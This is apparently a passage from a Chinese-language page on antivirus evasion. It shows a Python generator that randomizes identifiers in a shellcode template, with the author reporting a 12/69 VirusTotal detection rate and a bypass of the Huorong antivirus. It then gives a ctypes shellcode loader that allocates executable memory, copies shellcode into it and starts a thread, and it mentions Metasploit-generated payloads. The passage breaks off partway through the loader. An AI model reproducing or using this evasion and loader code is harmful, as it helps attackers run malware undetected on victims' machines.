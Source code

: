 ```python
def build_AV():
    lef = '''{'''
    rig = '''}'''
    var1 = random_name(random.randint(3,9))
    var2 = random_name(random.randint(3,9))
    var3 = random_name(random.randint(3,9))
    fun1 = random_name(random.randint(3,9))
    var4 = random_name(random.randint(3,9))
    var5 = random_name(random.randint(3,9))
    var6 = random_name(random.randint(3,9))
    var7 = random_name(random.randint(3,9))
    var8 = random_name(random.randint(3,9))
    var9 = random_name(random.randint(3,9))
    var10 = random_name(random.randint(3,9))
    var11 = random_name(random.randint(3,9))
    var12 = random_name(random.randint(3,9))
    var13 = random_name(random.randint(3,9))
    var14 = random_name(random.randint(3,9))
    var15 = random_name(random.randint(3,9))
    var16 = random_name(random.randint(3,9))


    shellc = exp.format(lef,rig,var1,var2,var3,fun1,var4,var5,var6,var7,var8,var9,var10,var11,var12,var13,var14,var15,var16)
    return shellc


if __name__ == '__main__':
    print(build_AV())
```

查杀结果[12/69](https://www.virustotal.com/gui/file/7e1819ae2d57eb451210abcab590f19e095f728349683612e2bf0fd26a3b3374)，可过火绒

### Python

使用内置的`ctypes`库可以丝滑地调用kernel32.dll的函数，唯一需要注意的是由于64位与32位系统的差异（会影响python对于指针的处理），需要在最开始设置`VirtualAlloc.restype = ctypes.c_uint64`

```python
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
```

并且亲测在64位系统上无法处理msf生成的32位shellcode，惨惨

```python
import ctypes
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

shellcode = b""

shellcode = bytearray(shellcode)
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)

# 创建一个新线程
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
```